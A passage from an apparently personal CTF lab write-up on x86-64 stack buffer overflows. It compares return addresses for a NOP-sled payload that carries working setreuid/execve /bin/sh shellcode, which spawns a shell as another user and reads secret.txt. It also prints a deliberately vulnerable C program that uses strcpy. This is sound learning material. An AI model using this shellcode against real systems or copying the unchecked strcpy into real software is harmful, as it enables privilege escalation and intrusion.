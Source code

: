 ### Debugging Return Address

I had 2, near-identical payloads except for the return address- which according to the "pick any address where the NOPs are" rule, the address I picked should have worked.

First payload is `l1ges` (the author of the write-up), second payload is mine.

```sh
[user1@ip-10-10-222-59 overflow-3]$ ./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
��������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shIAPH��RWH��j<XH1�AAAAAAAAAAAA�����
sh-4.2$ exit
[user1@ip-10-10-222-59 overflow-3]$ ./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x68\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
��������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shIAPH��RWH��j<XH1�BBBBBBBBBBBBh����
Illegal instruction
```

ended up being my return address `\x68\xe2\xff\xff\xff\x7f` didn't work, but `\x98\xe2\xff\xff\xff\x7f` did.

```sh
[user1@ip-10-10-222-59 overflow-3]$ ./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*12 + '\x98\xe2\xff\xff\xff\x7f'")
Here's a program that echo's out your input
��������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shIAPH��RWH��j<XH1�BBBBBBBBBBBB�����
sh-4.2$ whoami
user2
sh-4.2$ ls
buffer-overflow  buffer-overflow.c  secret.txt
sh-4.2$ cat secret.txt 
omgyoudidthissocool!!
```

## Buffer Overflow #2

The 2nd overflow, in the `buffer-overflow-4` folder:

```c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```